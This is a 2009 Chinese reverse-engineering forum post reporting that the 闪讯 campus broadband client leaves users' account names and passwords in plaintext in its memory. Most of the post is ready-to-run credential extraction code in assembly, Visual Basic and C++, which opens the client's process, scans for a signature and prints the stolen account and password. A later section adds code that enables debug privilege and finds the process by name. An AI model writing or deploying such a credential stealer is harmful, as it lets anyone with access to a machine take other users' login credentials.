



# 剑走偏锋，另辟蹊径获取加密信息

> 原文：[`www.pediy.com/kssd/pediy10/97156.html`](https://www.pediy.com/kssd/pediy10/97156.html)

【文章标题】: 剑走偏锋，另辟蹊径获取信息  
【下载地址】: 自己搜索下载  
【作者声明】: 只是感兴趣，没有其他目的。失误之处敬请诸位大侠赐教!  
\--------------------------------------------------------------------------------  
【详细过程】  
  
　　现在为了数据的安全，很多软件都使用了杂七杂八的加密算法，有些逆向起来很是不简单。有没有一种简单一点的对付某些软件加密的办法？有！不妨先看一个故事：  
  
　　某次电台请了一位商界奇才做嘉宾主持，大家都非常希望能听他谈一谈成功之道。但他只是淡淡一笑，说：“还是出道考题考考你们吧”  
　　“某地发现了金矿，人们蜂拥而去，然而一条大河挡住了必经之路，是你，你回怎样做？”  
　　有人说绕道走，有人说游过去。但他却微笑不语。很久，他说：“为什么非得去淘金，为什么不买一条船开展营运？”大家愣然，他却说，“在那样的情况下，即使把渡客们宰的只剩下一条短裤，他们也会心甘情愿。因为前面有金矿啊！”  
  
　　这和天无绝人之路一个道理。只要用心，只要有心，总能找到解决问题的方法，方法不止一个！  
　　对加密的信息通常我们会锲而不舍的去分析信息的加密算法，有时，仰视天空，很灿烂，侧目而视，眼前亦有大美！  
　　呵呵，扯远了，言归正传。这篇文章要探讨的就是通过不破解加密文件来获取有效信息的一种方法。  
　　我们学校以前用的是电信 201 卡上网，现在是用浙江电信的闪讯软件上网。据我所知，浙江很多高校现在都是用闪讯软件拨号上网，不知国内其他地区高校现在是何种上网方式  
  
。  
  
　　**问题的发现**  
　　曾经一段时间对软件安全很狂热，几乎每天都泡在看雪里，看那些大牛怎样分析，逆向软件的。看得多了就必定会要那么一点想法。有一次我突发奇想，想看一下闪讯的的内存状态（事前已用 PEid，OD 瞎分析了一下）是怎么样的。于是就用强大的十六进制编辑工具 Winhex 的内存编辑功能打开了闪讯的内存，结果不看不知道，一看吓死人。  
  
  
  
  
　　      图 闪讯内存状态  
　　那是什么，那就是客户的账号、密码的明码！由此才生了一个警觉。这里要说明的是闪讯登陆界面密码框里字符是无法用侠客密码查看器之类的程序获取的。后来多次对闪讯的内存状态进行测试，每次只要闪讯一连接上，其内存中必定保留着客户的账号、密码的明码这一敏感信息，每次信息的内存的位置是不同的，但是可以将信息锁定在一定得内存范围之内。令人费解的是这么一个泄露信息的漏洞（我姑且把它称为漏洞），从闪讯的第一个版本到当前的所有版本都没有修复。  
　　通过前面的发现，只要闪讯正确连上，那么就可以在闪讯程序的内存轻而易举中找到用户的账号和明码。通过编写程序来获取用户账户和密码是一件及其容易的事情。  
  
  
  
　　              
　　    图 闪讯账户信息获取程序设计流程  
    代码放上来，我就不分析代码了，知道原理来写代码就很简单了。  

代码:

```
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
; NKsearch.asm
; by xuecrack, All Rights Reserverd.
; Code for  闪讯研究,获取闪讯信息
; Date:2009-09-04
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
.386
.model flat,stdcall
option casemap:none

;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
; Include 文件定义
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
include    windows.inc
include    user32.inc
include    kernel32.inc
includelib  user32.lib
includelib  kernel32.lib

;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
; 数据段
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
.const
szNK    db  '闪讯',0
szWnClass  db  '#32770',0
szProc    db  '闪讯进程打开失败',0
szGetId    db  '获取信息失败',0
szOK    db  '恭喜，闪讯密码读取成功',0
szFmt    db  '账号: %s',0dh,0ah,'密码: %s',0

.data?
dwhWn    dd  ?,0
dwPid    dd  ?,0
dwhPro    dd  ?,0
dwRd    dd  ?,0
dwRData    dd  ?,0
szUsr    db  20 dup (?),0
szKey    db  20 dup (?),0
szMsg    db  60 dup (?),0

;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
; 代码段
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
.code
start:
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
; 通过一系列操作搜打开闪讯进程。
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  invoke  FindWindow,offset szWnClass,offset szNK  
  mov  dwhWn,eax
  invoke  GetWindowThreadProcessId,dwhWn, offset dwPid
  invoke  OpenProcess,PROCESS\_QUERY\_INFORMATION or PROCESS\_VM\_READ ,FALSE,dwPid
  .if eax == 0
    invoke  MessageBox,NULL,offset szProc,offset szNK,MB\_OK
    invoke  ExitProcess,NULL
  .endif
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
; 在闪讯内存中 12d500h-140000h 中查找闪讯账号标志信息"@DZK"。
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  mov  dwhPro,eax
  mov  dwRd,00130000h
  .while  dwRd <140000h
    invoke  ReadProcessMemory,dwhPro,dwRd,offset dwRData,4,NULL
    .if  dwRData == 4b5a4440h
      .break
    .endif
    inc dwRd
  .endw
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
; 如果没有搜索到信息就退出程序。
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  .if  dwRd>=140000h
    invoke  MessageBox,NULL,offset szGetId,offset szNK,MB\_OK
    invoke  CloseHandle,dwhPro
    invoke  ExitProcess,NULL
  .endif
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
; 处理找到的地址与账号起始地址的关系以及账号起始地址与密码起始地址的关系。
;\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  sub  dwRd,12
  invoke  ReadProcessMemory,dwhPro,dwRd, offset szUsr,20,NULL
  add  dwRd,32
  invoke  ReadProcessMemory,dwhPro,dwRd, offset szKey,20,NULL
  invoke  wsprintf,offset szMsg,offset szFmt, offset szUsr,offset szKey
  invoke  MessageBox,NULL,offset szMsg,offset szOK,MB\_OK or MB\_ICONINFORMATION
  invoke  CloseHandle,dwhPro  
  invoke  ExitProcess,NULL 
end start

```

**一点想法**  
本文主要提供了这么一个思路，解决问题的方法不止一种。当从软件界面，软件加密文件难以破解获取信息时、不妨看看软件运行时的内存状态。当直面难题，觉得无懈可击时不妨换个角度去看问题，也许问题可以迎面而解！  
　　软件安全是一个很重要的概念。如今因信息泄露而引来的问题层出不穷。软件安全现状令人堪忧，Programmer 在设计软件时应考虑到软件的安全性。  
  
\--------------------------------------------------------------------------------  
【版权声明】: 本文原创于看雪技术论坛, 转载请注明作者并保持文章的完整, 谢谢!  
  
                                                               2009 年 09 月 04 日 

发上三分代码，这份是 VB 的  

代码:

```
'author:xuecrack
'API 自己声明
'用户名保存在 UsrNum 变量，密码放在 UsrKey 变量

Dim hWn As Long         '存放窗体句柄
Dim pid As Long         '存放进程 ID
Dim hProcess As Long    '存放进程句柄
Dim Rdata As Long       '存放读取数据
Dim RdAddr As Long      '存放读取地址
Dim UsrNum As String, UsrKey As String: UsrNum = "": UsrKey = ""
Dim i As Integer             'i 作循环用
hWn = FindWindow("#32770", "闪讯")      '获取闪讯窗口句柄，可用 spy 之类的获取到闪讯的窗口类名
If hWn = 0 Then
    hWn = FindWindow("#32770", "闪讯宽带")
    If hWn = 0 Then
        MsgBox "闪讯未运行!!!!!", vbOKOnly + vbInformation, "提示"
        Exit Sub
    End If
End If

GetWindowThreadProcessId hWn, pid           '获取进程标识符
hProcess = OpenProcess(1040, 0, pid)        '将进程标识符做为参数，返回目标进程 PID 的句柄，得到此句柄后即可对目标进行读写操,PROCESS\_ALL\_ACCESS 表示完全控制,权限最大
If hProcess = 0 Then
    MsgBox "不能打开闪讯进程!!!!!", vbOKOnly + vbInformation, "打开进程错误"
    Exit Sub
End If

'在内存地址 130000h~140000h 内搜索账号特征"@DZK"，此乃经验所得
RdAddr = &H130000
Do
    ReadProcessMemory hProcess, RdAddr, Rdata, 4, 0&
    RdAddr = RdAddr + 1
Loop While RdAddr < &H140001 And Rdata <> &H4B5A4440

'若超过地址 140000h 则读取信息失败
If RdAddr > &H140000 Then
    MsgBox "读取失败！若有其他程序的标题是“闪讯”的请先关闭后再次运行本软件！", \_
    vbOKOnly + vbInformation, "提示"
    CloseHandle hProcess
    Exit Sub
End If

'处理读取到特征的地址与账号开始地址
RdAddr = RdAddr - 13
Rdata = 0
For i = 0 To 11
    ReadProcessMemory hProcess, RdAddr + i, Rdata, 1, 0&
    UsrNum = UsrNum & Chr(Rdata)
Next
UsrNum = UsrNum & "@DZKD.XY"
RdAddr = RdAddr + 32
Do
    ReadProcessMemory hProcess, RdAddr, Rdata, 1, 0&
    If Rdata = 0 Then Exit Do
    UsrKey = UsrKey & Chr(Rdata)
    RdAddr = RdAddr + 1
Loop

CloseHandle hProcess

```

下面这张是 VC 编写的控制台程序运行的截图  
  
  
  
  

代码:

```

/\*####################################################################################
NKsearch.cpp  闪讯密码提取器，用于提取闪讯账户信息
by xuecrack, All Rights Reserverd.
Date:2009-09-04
#####################################################################################\*/

#include<iostream>
#include<windows.h>
using namespace std;
int main()
{  
  //dwRdAddr:读取内存的地址，RdData:从内存中读出的数据，UsrNum:存放闪讯账号，UsrKey:存放闪讯密码
  DWORD  pId,dwRdAddr,RdData;
  BYTE  UsrNum\[21\],UsrKey\[20\];
  HWND  hWnd=(HWND)FindWindow("#32770","闪讯");
  DWORD threadID=GetWindowThreadProcessId(hWnd,&pId);
  HANDLE hPro= OpenProcess(PROCESS\_QUERY\_INFORMATION | PROCESS\_VM\_READ,FALSE,pId);
  system("title 闪讯密码读取器");
  system("color 0a");
  if(hPro==NULL)
  {
    cout<<"打开闪讯进程失败，有可能闪讯没有启动!"<<endl;
    return 0;
  }

  //在范围 12d500h~140000h 内查找闪讯用户信息，该范围由经验而得
  dwRdAddr=0x130000;
  while (dwRdAddr<0x140001)
  {
    ReadProcessMemory(hPro,(LPVOID)dwRdAddr,&RdData,4,NULL);
    if (RdData==0x4b5a4440)
      break;
    dwRdAddr++;
  }
  if(dwRdAddr>0x140000)
  {
    cout<<"读取信息失败!"<<endl;
    CloseHandle(hPro);
    return 0;
  }
  //此时 dwRdAddr 的位置为闪讯账号中"@DZKY"中的"D"的位置，要到开始位置需减去 12
  //闪讯账号开始位置与闪讯密码开始位置的距离为 32，故 dwRdAddr 先减 12 后再加 32
  dwRdAddr-=12;
  ReadProcessMemory(hPro,(LPVOID)dwRdAddr,UsrNum,21,NULL);
  dwRdAddr+=32;
  ReadProcessMemory(hPro,(LPVOID)dwRdAddr,UsrKey,20,NULL);
  CloseHandle(hPro);

  cout<<"-----------------------------恭喜-----------------------------"<<endl<<endl;
  cout<<"读取闪讯账号为："<<UsrNum<<endl<<"读取闪讯密码为："<<UsrKey<<endl;
  cout<<endl<<"--------------------------------------------------------------"<<endl;  
  system("pause>nul");

  return 0;
}

```

  
总共用三种编程语言写了代码，都可以的，大家挑自己喜欢的语言看吧。 

今天翻了下我的主题，发现之前用的 FindWindow，再转化获取闪讯 pid 方法不够好，换个方法.  
思路：提权->获取进程快照->遍历得到 pid  
  

代码:

```
//提权函数
BOOL WINAPI AdjustPrivileges()
{
  HANDLE hToken;
  TOKEN\_PRIVILEGES tkp;
  BOOL bResult=FALSE;
  //打开当前进程信令
  if(!OpenProcessToken(GetCurrentProcess(),TOKEN\_ADJUST\_PRIVILEGES|TOKEN\_QUERY,&hToken))
    return bResult;
  LookupPrivilegeValue(NULL,SE\_DEBUG\_NAME,&tkp.Privileges\[0\].Luid);
  tkp.PrivilegeCount=1;
  tkp.Privileges\[0\].Attributes=SE\_PRIVILEGE\_ENABLED;  //提升访问令牌权限
  AdjustTokenPrivileges(hToken,FALSE,&tkp,0,(PTOKEN\_PRIVILEGES)NULL,0);
  if(GetLastError() == ERROR\_SUCCESS)
    bResult=TRUE;
  return bResult;
}

```

  
代码:

```
//从可执行文件名字得到他的 pid
DWORD WINAPI ExeName2PID(  const char \*ExeName)
{  
  PROCESSENTRY32 process;
  process.dwSize=sizeof(process);
  HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS\_SNAPPROCESS,0);
  if(hSnapShot)
  {      
    BOOL findResult;
    findResult=Process32First(hSnapShot,&process);
    while(findResult)
    {
      if(strcmp(process.szExeFile,ExeName)==0)
      {
        CloseHandle(hSnapShot);
        return process.th32ProcessID;
      }
      findResult=Process32Next(hSnapShot,&process);    
    }
  }
  CloseHandle(hSnapShot);
  return 0;
}

```